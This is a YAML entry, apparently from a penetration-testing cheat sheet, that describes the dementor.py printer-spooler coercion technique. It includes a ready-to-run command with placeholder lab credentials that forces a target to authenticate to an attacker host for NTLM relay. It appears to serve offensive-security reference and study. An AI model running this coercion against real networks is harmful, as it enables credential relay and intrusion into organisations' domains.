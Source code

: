 ```yaml
---
description: |
  dementor.py interacts with the printer spooler on a host to trigger an authentication from the target IP to an attacker controlled host (usually an SMB or HTTP server). This captured authentication can then be relayed to authenticated to other hosts. See more in ntlmrelayx.py.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 dementor.py -u john -p password123 -d test.local 10.10.10.2 10.10.10.1
items:
  - Password
  - Username
services:
  - RPC
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc
  - https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack
---
```

